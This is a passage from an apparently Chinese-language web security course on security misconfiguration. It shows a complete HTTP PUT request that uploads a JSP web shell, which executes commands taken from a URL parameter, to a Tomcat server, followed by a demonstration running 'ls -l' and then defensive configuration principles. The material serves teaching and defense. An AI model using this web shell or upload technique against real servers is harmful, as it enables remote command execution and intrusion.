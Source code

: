 ```plain
PUT /1.jsp/ / HTTP/1.1
Host: 45e308724beb41f1943f19e8652afb2e.app.mituan.zone:8080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

<%
        java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
      int a = -1;
      byte[] b = new byte[2048];
      out.print("<pre>");
      while((a=in.read(b)) != -1){
                    out.println(new String(b));
            }
      out.print("</pre>");
%>

```

修改后的报文，可以向Tomcat服务器尝试写入1.jsp文件。其中1.jsp文件的内容为报文下方<% %>内的部分。**这部分的功能就是获取get方式上传的参数i，并将它当作命令去执行。**

接下来，我们去测试尝试的攻击行为是否成功。访问路径 `/1.jsp?i= ls -l`，其中 `1.jsp` 就是我们刚刚写入的文件，而 `?i=ls -l`，这是通过get方式上传参数i，并将它的值设为 `ls -l`。

![图片](https://static001.geekbang.org/resource/image/eb/4a/ebe40e1e3eb2a7a904ebed1b82bf3c4a.png?wh=1463x812)

我们发现页面的响应为一些文件信息，**这代表我们的 `ls -l` 命令运行成功，也代表这个Tomcat服务器存在安全配置问题。**

到这里，我们已经知道安全配置错误的危害还是较为严重的，所以我们在设计一个Web应用时，要注意对安全配置错误的避免。接下来让我们进入到安全实践中，总结一下如何避免安全配置错误。

## 安全实践

为了避免安全配置错误的发生，我们在配置Web应用时需要遵守几个原则。

第一个原则为**最小服务原则**，我们需要将Web应用不需要的服务进行关闭或限制，防止攻击者通过这些服务发起恶意行为。

第二个原则为**通用化的报错设置**，即我们需要将Web应用的报错信息设置得通用化，使得报错信息中不包含错误发生的细节信息，防止因此导致的敏感信息泄露。

第三个原则为**修改默认账户信息**，我们需要将Web应用默认的账户信息进行修改，尽量让账户密码变得复杂，否则攻击者很容易就会猜出账户信息，登陆进Web应用的管理后台。

## 总结

在这节课程中，我们学习了安全配置错误。

首先，我们通过Django示例，来了解什么是安全配置错误。接着我们更加深入的对典型的Web应用安全配置问题进行了逐一的学习。

我们第一个学习的是Apache相关的安全配置问题。在对这一部分的学习中，我们通过上传一个扩展名复杂的文件，绕过了Web应用对于上传文件类型的检测过滤。然后再利用Apache配置不当的问题，使得这一文件被x-httpd-php解析成功。这样就使得攻击者可以实现任意PHP代码执行。
